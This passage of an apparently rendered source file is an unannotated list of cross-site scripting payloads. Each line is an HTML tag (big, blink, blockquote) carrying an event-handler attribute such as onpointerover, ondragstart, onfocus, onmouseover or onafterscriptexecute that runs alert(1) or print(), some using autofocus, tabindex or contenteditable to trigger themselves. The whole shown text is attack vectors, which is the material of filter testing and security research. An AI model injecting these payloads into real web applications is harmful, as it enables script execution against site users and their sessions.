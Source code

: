 &lt;big onpointerleave=alert(1)&gt;XSS&lt;/big&gt;
&lt;big onpointermove=alert(1)&gt;XSS&lt;/big&gt;
&lt;big onpointerout=alert(1)&gt;XSS&lt;/big&gt;
&lt;big onpointerover=alert(1)&gt;XSS&lt;/big&gt;
&lt;big onpointerrawupdate=alert(1)&gt;XSS&lt;/big&gt;
&lt;big onpointerup=alert(1)&gt;XSS&lt;/big&gt;
&lt;blink draggable="true" ondrag="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink draggable="true" ondragend="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink draggable="true" ondragenter="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink draggable="true" ondragleave="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink draggable="true" ondragstart="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink id=x tabindex=1 onactivate=alert(1)&gt;&lt;/blink&gt;
&lt;blink id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/blink&gt;
&lt;blink id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/blink&gt;&lt;input autofocus&gt;
&lt;blink id=x tabindex=1 ondeactivate=print()&gt;&lt;/blink&gt;&lt;input id=y autofocus&gt;
&lt;blink id=x tabindex=1 onfocus=alert(1)&gt;&lt;/blink&gt;
&lt;blink id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/blink&gt;
&lt;blink onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;blink onbeforecopy="alert(1)" contenteditable&gt;test&lt;/blink&gt;
&lt;blink onbeforecut="alert(1)" contenteditable&gt;test&lt;/blink&gt;
&lt;blink onbeforepaste="alert(1)" contenteditable&gt;test&lt;/blink&gt;
&lt;blink onbeforescriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;blink onblur=alert(1) tabindex=1 id=x&gt;&lt;/blink&gt;&lt;input autofocus&gt;
&lt;blink onclick="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink oncontextmenu="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink oncopy=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;blink oncut=alert(1) value="XSS" autofocus tabindex=1&gt;test
&lt;blink ondblclick="alert(1)" autofocus tabindex=1&gt;test&lt;/blink&gt;
&lt;blink onfocusout=alert(1) tabindex=1 id=x&gt;&lt;/blink&gt;&lt;input autofocus&gt;
&lt;blink onkeydown="alert(1)" contenteditable&gt;test&lt;/blink&gt;
&lt;blink onkeypress="alert(1)" contenteditable&gt;test&lt;/blink&gt;
&lt;blink onkeyup="alert(1)" contenteditable&gt;test&lt;/blink&gt;
&lt;blink onmousedown="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink onmouseenter="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink onmouseleave="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink onmousemove="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink onmouseout="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink onmouseover="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink onmouseup="alert(1)"&gt;test&lt;/blink&gt;
&lt;blink onmousewheel=alert(1)&gt;requires scrolling
&lt;blink onpaste="alert(1)" contenteditable&gt;test&lt;/blink&gt;
&lt;blink onpointerdown=alert(1)&gt;XSS&lt;/blink&gt;
&lt;blink onpointerenter=alert(1)&gt;XSS&lt;/blink&gt;
&lt;blink onpointerleave=alert(1)&gt;XSS&lt;/blink&gt;
&lt;blink onpointermove=alert(1)&gt;XSS&lt;/blink&gt;
&lt;blink onpointerout=alert(1)&gt;XSS&lt;/blink&gt;
&lt;blink onpointerover=alert(1)&gt;XSS&lt;/blink&gt;
&lt;blink onpointerrawupdate=alert(1)&gt;XSS&lt;/blink&gt;
&lt;blink onpointerup=alert(1)&gt;XSS&lt;/blink&gt;
&lt;blockquote draggable="true" ondrag="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote draggable="true" ondragend="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote draggable="true" ondragenter="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote draggable="true" ondragleave="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote draggable="true" ondragstart="alert(1)"&gt;test&lt;/blockquote&gt;
&lt;blockquote id=x tabindex=1 onactivate=alert(1)&gt;&lt;/blockquote&gt;
&lt;blockquote id=x tabindex=1 onbeforeactivate=alert(1)&gt;&lt;/blockquote&gt;
&lt;blockquote id=x tabindex=1 onbeforedeactivate=print()&gt;&lt;/blockquote&gt;&lt;input autofocus&gt;
&lt;blockquote id=x tabindex=1 ondeactivate=print()&gt;&lt;/blockquote&gt;&lt;input id=y autofocus&gt;
&lt;blockquote id=x tabindex=1 onfocus=alert(1)&gt;&lt;/blockquote&gt;
&lt;blockquote id=x tabindex=1 onfocusin=alert(1)&gt;&lt;/blockquote&gt;
&lt;blockquote onafterscriptexecute=alert(1)&gt;&lt;script&gt;1&lt;/script&gt;
&lt;blockquote onbeforecopy="alert(1)" contenteditable&gt;test&lt;/blockquote&gt;